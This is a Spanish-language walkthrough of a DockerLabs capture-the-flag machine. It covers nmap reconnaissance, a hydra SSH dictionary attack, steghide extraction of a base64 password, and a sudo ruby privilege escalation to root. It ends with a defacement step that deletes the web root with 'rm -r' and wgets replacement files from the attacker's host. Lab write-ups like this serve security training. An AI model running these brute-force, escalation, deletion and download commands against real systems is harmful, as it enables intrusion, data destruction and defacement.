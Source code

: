 
![[20250808115256.png]]

# Fase de reconocimiento

Primero realizamos un escaneo basico con nmap

```bash
nmap -p- --open -min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts
```

Una vez tenemos los puertos abiertos vamos a realizar un segundo escaneo con scripts basicos de nmap para ver el servicio y la version que corren por detras 

```bash
nmap -p22,80 -sCV 172.17.0.2 -oN targeted
```

![[20250808115450.png]]

Una vez sabemos esto vamos a empezar la investigación por el puerto 80 la pagina web http 

![[20250808115526.png]]

a priori parece que es una especie de portal de comunicación entre los empleados de la empresa.

Leyendo los mensajes podemos ver lo siguiente

![[20250808115625.png]]

Vemos que hay un usuario llamado Carlota, posteriormente vemos que se han detectado contraseñas vulnerables por lo que vamos a tratar de hacer un ataque de diccionario con hydra

# Fase de explotación

```bash
hydra -t 64 -l carlota -P /usr/share/wordlists/rockyou.txt -s 22 172.17.0.2 ssh
```

Descubrimos que las credenciales son carlota:babygirl

asi que nos conectamos por ssh a carlota con la contraseña babygirl.

```bash
ssh carlota@172.17.0.2
```

![[20250808120136.png]]

una vez estamos dentro como el sistema por defecto usa una sh vamos a cambiarla por una bash y vamos a exportar el TERM a xterm

```bash
/bin/bash
```

```bash
export TERM=xterm
```

ahora si de manera mas cómoda vamos a buscar la escalada de privilegios.

# Fase de post explotación

como el usuario carlota probamos como siempre los siguientes comandos:

```bash
sudo -l
```

![[20250808120338.png]]

no sacamos nada.

```bash
find / -perm -4000 2>/dev/null
```

![[20250808120417.png]]

no vemos nada interesante.

tras buscar un poco con comandos no vemos nada relevante asi que vamos a explorar las rutas del sistema.

en el directorio `/home/carlota/Desktop/fotos/vacaciones` vemos que hay una imagen.jpg igual en los metadatos de la imagen vemos algo. para conseguir la imagen yo seguí este proceso.

1- Desde la maquina victima en el directorio mencionado 

```bash
python3 -m http.server 8081
```

2-desde la pagina web vamos a la Url `http://172.17.0.2:8081/imagen.jpg` y descargamos la imagen

![[20250808120720.png]]

una vez la tenemos en nuestra maquina atacante vamos a buscar metadatos

3- usamos steghide para ver que hay en la imagen por detras

```bash
steghide info imagen.jpg
```

![[20250808120914.png]]

Nos solicitan un passphrase pulsamos enter sin poner nada ya que no solicita credenciales reales 


vemos que contiene un archivo llamado `secret.txt` asi que vamos a extraerlo

4-usamos steghide para extraer el archivo 

```bash
steghide extract -sf imagen.jpg
```
![[20250808121101.png]]

a mi me pone que ya existe por que lo hice antes pero se debería descargar en vuestro equipo el archivo `seecret.txt`

hacemos un cat para ver que contiene y descubrimos esto 

![[20250808121150.png]]

contiene un codigo en base64 que vamos a desencriptar para descubrir lo que oculta

```bash
echo 'ZXNsYWNhc2FkZXBpbnlwb24=' |base64 -d
```

![[20250808121232.png]]

tenemos una aparente contraseña `eslacasadepinypon` pero aun no sabemos donde usarla asi que vamos a seguir explorando con carlota el sistema

![[20250808121336.png]]

vemos que hay un usuario llamado oscar asi que vamos a probar si la contraseña le pertenece a el 

```bash
su oscar
```

contraseña `eslacasadepinypon`

![[20250808121426.png]]

vemos que si, vamos a exportar la shell a una bash

```bash
/bin/bash
```

# Escalada de privilegios

ahora utilizamos el comando 

```bash
sudo -l
```

con la intención de ver si tenemos permisos de sudo en algún binario

![[20250808121517.png]]

vemos que tenemos permisos sudoers en el binario ruby asi que buscamos en GTFObins que podemos hacer

![[20250808121605.png]]

aqui vemos que con un sencillo codigo podemos escalar a root asi que vamos a probarlo 

```bash
sudo ruby -e 'exec "/bin/bash"'
```

![[20250808121723.png]]

y conseguimos acceso como root

# Extra

Como siempre en las maquina DockerLabs vamos a poner nuestra firma esto lo enseñamos a hacer en la maquina chocolate 

vamos a modificar la pagina html para dejar una huella diciendo que hemos estado aqui y hemos vulnerado la maquina 

en nuestra maquina atacante donde tengamos nuestro html personalizado abrimos un puerto web con python

```bash
python3 -m http.server 8081
```

en la maquina victima ya como root vamos al directorio `/var/www/html`

```bash
cd /var/www/html
```

y una vez ahi realizamos el siguiente comando para borrar la informacion 

```bash
rm -r ./*
```

una vez hecho esto vamos a descargarnos nuestro archivo html y la imagen que necesitamos

```bash
wget http://192.168.1.182:8081/index.html -O index.html && wget http://192.168.1.182:8081/panda.png -O panda.png
```

ahora vamos a la pagina web al index.html recargamos la pagina y vemos nuestra firma

![[20250808122216.png]]